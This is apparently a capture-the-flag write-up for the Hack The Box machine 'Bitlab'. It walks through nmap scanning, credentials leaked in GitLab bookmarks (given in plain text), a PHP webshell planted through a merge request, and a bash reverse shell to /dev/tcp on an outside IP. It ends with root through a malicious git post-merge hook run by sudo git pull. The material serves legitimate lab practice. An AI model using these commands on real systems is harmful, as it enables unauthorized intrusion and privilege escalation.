

# [Bitlab](https://app.hackthebox.com/machines/bitlab)

```bash
nmap -p- -sT --min-rate 10000 10.10.10.114 -Pn
```


After discovering open ports, let's do greater nmap scan.

```bash
nmap -A -sC -sV -p22,80 10.10.10.114 -Pn  
```


Let's try to access web application for port 80.

That's Gitlab server.


I don't have creds to login and no option for register.

That's why we need to find credentials of someone.

From 'robots.txt' file, I see that '/help' endpoint is possible even though it shows that disallowed.


Here, we find bookmarks of user.


I just take this value and enters to my Node.js CLI.


I grab credentials from here as below.

clave: 11des0081x

I login to Gitlab server via above credentials.




Here, we have repository called 'Profile', I just add my php webshell into here as below.


Now, go to repository, and upload webshell.


After we accept merge request, our file is already here.


Let's browse this webshell and use it.


Let's make reverse shell.

```bash
?cmd=bash -c 'bash -i >%26 /dev/tcp/10.10.16.8/1337 0>%261'
```


I got reverse shell from port (1337).


Let's make interactive shell.

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
Ctrl+Z
stty raw -echo; fg
export TERM=xterm
export SHELL=bash
```


Let's check privileges of this user via `sudo -l` command.


This user has root privilege for `git` command.


After some enumeration on Google, I find such an privilege escalation [exploit](https://github.com/arnav-t/git-pull-priv-escalation) on Github.

Commands to do this.
```bash
cd /dev/shm
mkdir .dr4ks
cd .dr4ks
cp -r /var/www/html/profile .
vim profile/.git/hooks/post-merge  # add reverse shell
chmod +x profile/.git/hooks/post-merge 
cd profile  #go to dir (.git locates)
```


I need to do changes as because git pull says that 'Already up to date'


I got reverse shell.


final command is below.
```bash
sudo /usr/bin/git pull # profile's directory.
```

user.txt and root.txt (together)

